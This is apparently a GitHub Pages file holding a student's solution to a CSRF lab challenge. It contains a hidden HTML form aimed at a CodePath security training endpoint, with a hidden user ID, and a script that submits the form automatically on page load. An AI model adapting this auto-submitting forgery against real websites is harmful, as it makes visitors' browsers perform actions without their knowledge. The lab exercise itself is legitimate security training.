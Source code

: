 # JLPlummer79.github.io


<form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd" />
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
